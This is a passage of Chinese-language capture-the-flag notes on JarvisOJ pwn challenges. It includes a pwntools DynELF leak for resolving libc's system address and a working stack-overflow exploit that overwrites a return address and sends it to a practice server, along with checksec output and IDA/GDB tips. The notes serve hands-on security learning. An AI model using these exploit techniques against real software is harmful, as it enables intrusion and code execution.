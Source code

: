 ``` python
    io.send(payload)
    data = io.recv(4)
    #print data
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data
    
d = DynELF(leak, elf = ELF('./level4'))
addr_system = d.lookup('system', 'libc')
log.debug('system addr: {}'.format(hex(addr_system)))
    

```


### tell me somthing
``` python
#!/usr/bin/python

from pwn import *

io = remote('pwn.jarvisoj.com', 9876)

payload  = 'A' * 0x88
payload += p64(0x400620)

io.sendline(payload)

io.interactive()
```

### smashes
checksec 一下
``` bash
[*] '/home/trump/Desktop/jarvisoj/pwn/smashes/smashes'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```
64位，canary，NX开，

## 一些需要注意的坑：

* 32位的程序在64位上的机器上没法跑，需要安装一下 `sudo apt-get install libc6-i386 libc6:i386`
* gdb调试不熟悉啊，x/nxg addr 打印内存内容



## IDA技巧
shift + F12 : 调出string界面
alt + 7 : imports界面

## GDB技巧


### 参考
[通用gadget: https://www.cnblogs.com/Ox9A82/Ox9A82/p/5487725.html](https://www.cnblogs.com/Ox9A82/Ox9A82/p/5487725.html)

